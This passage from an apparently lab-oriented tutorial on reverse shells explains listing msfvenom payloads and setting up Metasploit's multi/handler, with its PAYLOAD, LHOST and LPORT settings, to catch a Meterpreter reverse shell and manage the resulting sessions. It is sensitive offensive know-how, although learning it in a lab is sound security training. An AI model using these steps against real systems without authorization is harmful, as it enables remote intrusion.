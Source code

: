 linux/x86/meterpreter_reverse_tcp

Aside from the msfconsole man page, the other important thing to note when working with msfvenom is:

msfvenom --list payloads

This can be used to list all available payloads, which can then be piped into grep to search for a specific set of payloads. For example:

This gives us a full set of Linux meterpreter payloads for 32bit targets.

# Metasploit mult/handler

Multi/Handler is a superb tool for catching reverse shells. It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads.

Fortunately, it's relatively easy to use:

    Open Metasploit with msfconsole
    Type use multi/handler, and press enter

We are now primed to start a multi/handler session. Let's take a look at the available options using the options command:

There are three options we need to set: payload, LHOST and LPORT. These are all identical to the options we set when generating  shellcode with Msfvenom -- a payload specific to our target, as well as a listening address and port with which we can receive a shell. Note that the LHOST must be specified here, as metasploit will not listen on all network interfaces like netcat or socat will; it must be told a specific address to listen with (when using TryHackMe, this will be your tun0 address). We set these options with the following commands:

    set PAYLOAD <payload>
    set LHOST <listen-address>
    set LPORT <listen-port>

We should now be ready to start the listener!

Let's do this by using the exploit -j command. This tells Metasploit to launch the module, running as a job in the background.


You may notice that in the above screenshot, Metasploit is listening on a port under 1024. To do this, Metasploit must be run with sudo permissions.

When the staged payload generated in the previous task is run, Metasploit receives the connection, sending the remainder of the payload and giving us a reverse shell:

Notice that, because the multi/handler was originally backgrounded, we needed to use sessions 1 to foreground it again. This worked as it was the only session running. Had there been other sessions active, we would have needed to use sessions to see all active sessions, then use sessions <number> to select the appropriate session to foreground. This number would also have been displayed in the line where the shell was opened (see "Command Shell session 1 opened").

# WebShell
